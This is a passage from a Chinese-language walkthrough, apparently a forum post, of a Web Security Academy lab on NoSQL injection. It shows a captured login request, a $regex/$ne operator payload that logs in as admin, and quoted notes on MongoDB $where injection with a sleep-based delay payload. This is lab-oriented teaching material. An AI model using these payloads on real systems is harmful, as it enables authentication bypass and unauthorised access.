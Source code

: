 对于基于 URL 的输入，您可以通过 URL 参数插入查询运算符。例如，`username=wiener`变为 `username[$ne]=invalid`.如果这不起作用，您可以尝试以下操作：

1. 将请求方法从 转换`GET`为`POST`.
2. 将`Content-Type`标题更改为`application/json`.
3. 将 JSON 添加到消息正文。
4. 在 JSON 中注入查询运算符。  
    进来有个login页面

![nosql5.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-a40a7f6d00c11210ec78c068586cf847bd2d708f.png)  
抓个包看看

```php
POST /login HTTP/1.1
Host: xxxxxxxxxxxxx.web-security-academy.net
Cookie: session=djMoS9NuJRKCDsBfzRpHwzdkyy9EqZEC
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://xxxxxxxxxxx7.web-security-academy.net/login
Content-Type: application/json
Content-Length: 39
Origin: https://xxxxxxxxxxx.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"admin","password":"admin"}
```

可以看见最后面传了json格式的文件  
我们看见题目要求登录admin的账户，所以就构造playload  
playload：  
{"username":{"$regex":"admin.\*"},  
"password":{"$ne":""}}

![nosql6.png](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-0a641132dfe76a058df587c3c9be7567beb9b57b.png)

可以看见也是成功登录

这里也吧M师傅的JavaScript注入的一些笔记写进来，因为算是同一个知识点了只不过师傅用的是where这个方法

example：

```php
db.users.find({ $where: "function(){return(this.username == $userData)}" })
```

构造延迟：

```php
db.users.find({ $where: "function(){return(this.username == 'a'; sleep(5000))}" })
```

